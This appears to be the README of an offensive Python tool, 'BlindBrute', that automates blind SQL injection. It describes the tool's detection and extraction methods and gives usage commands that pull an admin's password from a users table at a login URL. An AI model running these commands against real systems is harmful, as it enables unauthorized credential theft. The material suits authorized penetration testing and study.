 # BlindBrute - Blind SQL Injection Brute Forcer

BlindBrute is a highly customizable Python tool designed for blind SQL injection attacks. It supports multiple detection methods, including status codes, content length, keyword-based comparison, and sleep-based SQL injection techniques. It also allows for flexible payload injection using headers, request data, and raw HTTP request templates, making it adaptable to a wide range of scenarios. Data extraction can be optimized in a variety of ways depending on user input. 

## Features
 - **Injection Detection:** Automatically checks if the target field is injectable and determines the best detection method (status code, content length, keywords, or sleep-based).
 - **Column Count Detection:** Determines the number of columns in the target table to craft proper SQL injection payloads.
 - **Database Type Detection:** Identifies the type of database (e.g., MySQL, PostgreSQL, Oracle) to tailor the injection techniques accordingly.
 - **Data Length Discovery:** Discovers the length of the data to optimize the extraction process.
 - **Data Extraction Methods:**
    - **Character-by-Character Extraction:** Extracts data one character at a time.
    - **Binary Search Extraction:** Uses a binary search algorithm to optimize character extraction.
    - **Dictionary Attack:** Uses a provided wordlist to speed up the extraction process.
    - **Custom N-Gram Support:** Generate and use custom n-grams from sample text to prioritize character extraction, improving efficiency.
 - **Threading Support:** Utilizes multithreading to speed up the extraction process.
 - **Customizable Payloads:** Supports injectable headers, request data, and custom request files with placeholders for injections.
 - **Supported HTTP Methods:** GET, POST, PUT, PATCH, DELETE, HEAD, OPTIONS.

## Requirements

 - Pyhton 3.6 or higher
 - requests 2.25.1 or higher

Install dependencies using:

```bash
pip install -r requirements.txt
```

## Usage

```bash
Usage:
    python blindbrute.py -u <URL> -t <TABLE> -c <COLUMN> -w <WHERE CLAUSE> [options]

Required Arguments:
    -u, --url                    Target URL
    -t, --table                  Table name from which to extract the data
    -c, --column                 Column name to extract (e.g., Password)
    -w, --where                  WHERE clause (e.g., Username = 'Administrator')

Optional Arguments:
    -ih, --injectable-headers    Injectable headers as key-value pairs (e.g., -ih Referer http://example.com)
    -sh, --static-headers        Static headers as key-value pairs that do not contain payloads (e.g., -sh Session_ID abcdefg12345)
    -d, --data                   Specify data to be sent in the request body. Changes request type to POST.
    -f, --file                   File containing the HTTP request with 'INJECT' placeholder for payloads
    -m, --max-length             Maximum length of the data that the script will look for (default: 1000)
    -ba, --binary-attack         Use binary search for ASCII extraction
    -da, --dictionary-attack     Path to a wordlist file for dictionary-based extraction
    -o, --output-file            Specify a file to output the extracted data
    --level                      Specify the threading level (1-5, default: 2)
    --delay                      Delay in seconds between requests to bypass rate limiting
    --timeout                    Timeout for each request in seconds (default: 10)
    --verbose                    Enable verbose output for debugging
    --true-keywords              Keywords to search for in the true condition response (e.g., 'Welcome', 'Success')
    --false-keywords             Keywords to search for in the false condition response (e.g., 'Error', 'Invalid')
    --sleep-only                 Use only sleep-based detection methods
    --force                      Skip the injectability check and force a detection method (status, content, keyword, or sleep)


Examples:
    python blindbrute.py -u "http://example.com/login" -t users -c password -w "username='admin'"
    python blindbrute.py -u "http://example.com/login"  -t users -c password -w "username='admin' -ih Cookie 'SESSION=abc123'"
    python blindbrute.py -u "http://example.com/login" -f request.txt -t users -c password -w "username='admin'" --binary-attack
    python blindbrute.py -u "http://example.com/login" -t users -c password -w "username='admin'" --force status --dictionary-attack --level 5
```

## License

BlindBrute is released under the MIT License. See LICENSE for more information.

## Contributing

Contributions are welcome! Feel free to submit issues or pull requests for any improvements, bug fixes, or new features.

## Disclaimer
This tool is intended for educational purposes and authorized testing only. Do not use this tool on systems without proper authorization. The author is not responsible for any misuse or damage caused by this tool.

